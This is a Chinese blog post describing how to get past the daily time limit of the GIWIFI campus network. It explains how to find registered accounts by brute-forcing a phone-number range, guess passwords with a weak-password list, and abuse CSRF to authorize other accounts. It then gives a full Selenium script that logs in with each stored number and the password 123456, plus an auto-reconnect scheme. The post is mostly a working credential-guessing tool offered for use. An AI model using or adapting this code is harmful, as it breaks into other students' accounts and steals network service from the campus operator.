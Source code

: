 ```yaml
---
layout: post
title:  "GIWIFI破解思路"
date:   2019-1-16 20:49:43 
author: co0ontty
categories: python Tools ALL 
tags: python Tools ALL
describe: Giwifi登录时间限制破解
cover: 'https://i.loli.net/2019/04/05/5ca6ba3c2d9ee.png'
---
```


## 发现思路：

#### 账号：

1、我所在的学校使用GIWIFI的校园网解决方案，登陆账号为学生本人的手机号。学校学生使用的手机号均为学校内运营商入学时发放的校园卡，均处在一个号段，每个账号每天拥有15分钟的免费时长。
2、手机号如果注册过GIWIFI，正确登陆后便可使用互联网服务。如果账号未注册GIWIFI，使用任意密码登录后便会要求填写身份信息。根据这项区别便可使用手机号段字典爆破出注册过的账号。

#### 密码：

GIWIFI官方要求使用的密码为6位及以上，所以使用弱口令字典进行爆破。  

#### 登陆：

有了账号和密码，便需要解决登陆问题。我的思路是使用python进行自动登录。同时可以使用CSRF攻击实现越权对其他账号上网状态进行授权

## 实现过程：

##### 1、使用python的webdriver库，自动打开校园网的登陆链接。

```py
wd = webdriver.Chrome()

wd.implicitly_wait(10)  

wd.set_page_load_timeout(10)

wd.get("http://login.gwifi.com.cn/cmps/admin.php/api/login/?
gw_address=172.16.1.5&gw_port=8060&gw_id=GWIFI-qingdaoshankedaD2&ip=172.17.142.232&mac=F0:18:98:19:70:D9&url=http://www.baidu.com?ua=Mozilla&apmac=00:0b:ab:f1:c6:d4&ssid=")  

wd.maximize_window()
```

最后一行代码指定python调用浏览器后的显示方式为最大化，如果要静默使用可以将maximize换成minimize  

##### 2、传递用户名密码参数，并点击登陆

```py
name_input = wd.find_element_by_id('first_name')  # 找到用户名的框框. 

pass_input = wd.find_element_by_id('first_password')  

login_button = wd.find_element_by_id('first_button')  

name_input.clear()  

name_input.send_keys(phonenumber[0])  # 填写用户名  

time.sleep(0.2) 

pass_input.clear()

pass_input.send_keys(123456)  # 填写密码

time.sleep(0.2)

login_button.click()         # 点击登录

wd.implicitly_wait(4)

wd.quit()
```

##### 3、其他工作

·关于用户名密码，我选择的方式是存在文件里，然后使用python读文件的方式向网页中传递参数。  
·关于wd库，之所以选择wd库是因为这样可以看到登陆的状态，若果选择通过requests库直接传递参数，便不会在第一时间发现网络连接不通畅和详细的问题。  
·关于自动登录，使用sh的ping命令原理，新建脚本，每五分钟运行一次，断网后自动调用python脚本。 

## 全部代码：

```py
# -*- coding:utf-8 -*-

from selenium import webdriver
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import NoSuchElementException
from selenium.webdriver.common.by import By
import time


# option=webdriver.ChromeOptions()
# option.add_argument('--headless')
# option.add_argument('--no-sandbox')
# option.add_argument('--start-maximized')
# wd = webdriver.Chrome(chrome_options=option)


wd = webdriver.Chrome()
wd.implicitly_wait(10)
wd.set_page_load_timeout(10)
wd.get("http://login.gwifi.com.cn/cmps/admin.php/api/login/?gw_address=172.16.1.5&gw_port=8060&gw_id=GWIFI-qingdaoshankedaD2&ip=172.17.142.232&mac=F0:18:98:19:70:D9&url=http://www.baidu.com?ua=Mozilla&apmac=00:0b:ab:f1:c6:d4&ssid=")
wd.maximize_window()
file = open("giwifi2.txt")
phonenumber = file.readlines()
for i in range(len(phonenumber)):
    phonenumber[i] = phonenumber[i].replace("\n","") 
    pass
# print(phonenumber[0])
# print(type(phonenumber))

"""这段可以查看selenium的源码,属于smart wait"""
name_input = wd.find_element_by_id('first_name')  # 找到用户名的框框
pass_input = wd.find_element_by_id('first_password')
login_button = wd.find_element_by_id('first_button')
name_input.clear()
name_input.send_keys(phonenumber[0])  # 填写用户名
time.sleep(0.2)
pass_input.clear()
pass_input.send_keys(123456)  # 填写密码
time.sleep(0.2)
login_button.click()         # 点击登录
wd.implicitly_wait(4)
wd.quit()
print (phonenumber[0])
del phonenumber[0]
file.close()
file = open("giwifi2.txt", "w")
for i in range(len(phonenumber)):
    file.write(phonenumber[i])
    file.write("\n")
    pass
file.close()
print ("All Done")
exit()
```
